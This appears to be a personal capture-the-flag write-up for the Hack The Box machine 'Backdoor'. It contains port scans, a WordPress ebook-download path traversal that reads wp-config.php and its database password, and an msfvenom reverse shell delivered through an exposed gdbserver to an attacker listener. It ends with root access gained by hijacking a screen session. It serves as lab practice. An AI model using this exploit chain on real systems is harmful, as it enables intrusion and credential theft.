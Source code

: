 Box info:
linux
IP 10.10.11.125
see ![wappalyzer](Screenshots/bakdoor_wappa.png)

nmap::
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Backdoor &#8211; Real-Life
|_http-generator: WordPress 5.8.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

-sU::
Not shown: 992 closed udp ports (port-unreach)
PORT      STATE         SERVICE         VERSION
514/udp   open|filtered syslog
1056/udp  open|filtered vfo
18255/udp open|filtered unknown
19165/udp open|filtered unknown
19695/udp open|filtered unknown
21104/udp open|filtered unknown
32777/udp open|filtered sometimes-rpc18
58075/udp open|filtered unknown

`rustscan -a backdoor.htb -u 2500::`
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
1337/tcp open  waste   syn-ack Waste?

`gobuster::`
+index.php, /wp-login.php, wp-content/uploads/,
/wp-content/plugins/akismet - no permission
/wp-content/plugins - "ebook-download && hello.php" see ![dir_traversal](Screenshots/backdoor-ebook-dir-traversal.png)
`whatweb backdoor.htb::`
```
http://backdoor.htb [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[wordpress@example.com], HTML5,
HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.125], JQuery[3.6.0], MetaGenerator[WordPress 5.8.1],
PoweredBy[WordPress], Script, Title[Backdoor &#8211; Real-Life], UncommonHeaders[link], WordPress[5.8.1]
```

Attempts::
WordPress Plugin Akismet - Multiple Cross-Site Scripting Vulnerabilities | php/webapps/37902.php
ebook-download exploit:: [CVE](https://www.exploit-db.com/exploits/39575) see ![traverse](Screenshots/backdoor_POC.png)
`backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`
```
wp-config.php:: 
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'MQYBJSaD#DxG6qbm' );
```

##**LFISuite**##

```
python2 lfisuite:: 
+ 1 -> exploiter 
+ 9 -> Auto-hack
+ [*] Enter the URL you want to try to hack -> http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
+ http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/etc/passwd
```
send to burp:: XYZ=/etc/passwd
+ /proc/PID/cmdline = displays which ever process is running on commandline:: Brute force PID number.
+ Burp - intruder - upload numberlist::
+ Response#:: 868:: See ![](Screenshots/backdoor_gdbserver_found.png)

##**gdbserver exploit::##**
gdbserver 1337:
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.13 LPORT=9999 PrependFork=true -f elf -o binary.elf
chmod +x binary.elf
gdb binary.elf
gdb>target extended-remote 10.10.11.125:1337 #remote gdb target
gdb>remote put binary.elf binary.elf #upload binary.elf
gdb>set remote exec-file /home/user/binary.elf #remote exe. file
gdb>run #See ![](Screenshots/backdoor_after_run_gdb_elf.png)
set up listener:: nc -lvnp 9999
```
see ![serve_elf](Screenshots/backdoor_gdb_serve_elf.png)
see [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver) 
user:: f8424547e0a469bd46d72cda45ff861f

##**Linpeas.sh::**##
+ -rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
+ -rwsr-xr-x 1 root root 163K Jan 19  2021 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable  
+Files with capabilities (limited to 50):
  /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
  /usr/bin/ping = cap_net_raw+ep
  /usr/bin/mtr-packet = cap_net_raw+ep
  /usr/bin/traceroute6.iputils = cap_net_raw+ep

Broken shells:
+-rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at                                                              
`echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null`                                                
`mysql -u wordpressuser -p MQYBJSaD#DxG6qbm`

Capablities??
GTFObins:: no luck

```
ps aux | grep "screen"   
root         870  0.0  0.0   2608  1728 ?        Ss   Jan27   0:27 /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
export TERM=xterm
screen -x root/root
```
root:: 3faa65cadf9e930098a7786d3dc4ee44

WIFI TODO: https://github.com/D35m0nd142/DWH

[Linux Filesystem Hierarchy](https://tldp.org/LDP/Linux-Filesystem-Hierarchy/html/proc.html)
[hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver)
[LFISuite](https://github.com/D35m0nd142/LFISuite)
[walkthrough](https://infosecwriteups.com/backdoor-hackthebox-walkthrough-6e4e8b483db1)